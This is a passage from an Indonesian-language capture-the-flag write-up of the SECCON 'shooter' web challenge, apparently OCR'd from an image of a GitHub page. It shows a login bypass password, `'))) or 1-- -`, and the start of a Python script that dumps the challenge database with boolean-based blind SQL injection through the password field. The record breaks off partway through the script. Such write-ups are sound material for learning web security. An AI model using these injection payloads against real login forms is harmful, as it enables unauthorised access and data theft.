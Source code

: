 Kami mencoba melakukan fuzzing, dan mendapat error jika password mengandung karakter `'`.

![error](shooter_error.png)

Kami menduga bahwa halaman tersebut vulnerable terhadap SQL injection. Kami meneruskan fuzzing dan akhirnya dapat login dengan password `'))) or 1-- -`! Dari sini kita dapat melihat 20 skor terakhir.

![scores](shooter_scores.png)

Akan tetapi, selain itu tidak ada yang menarik. Kami mencoba untuk dump semua tabel database dengan teknik boolean-based SQL injection. Kami juga menggunakan algoritma binary search untuk mempercepat prosesnya.

```python
import requests
import re
import string

def check(s):
    sess = requests.Session()
    r = sess.get("http://staging.shooter.pwn.seccon.jp/admin/sessions/new")
    auth_token = re.findall(r'name="authenticity_token" value="(.+?)"', r.text)[0]
    data = {
        "login_id": "admin",
        "authenticity_token": auth_token,
        "password": "')))||(select case when ({}) then 1 else 0 end)#".format(s)
    }
    r = sess.post("http://staging.shooter.pwn.seccon.jp/admin/sessions", data=data)
    if not r.ok:
        return False
```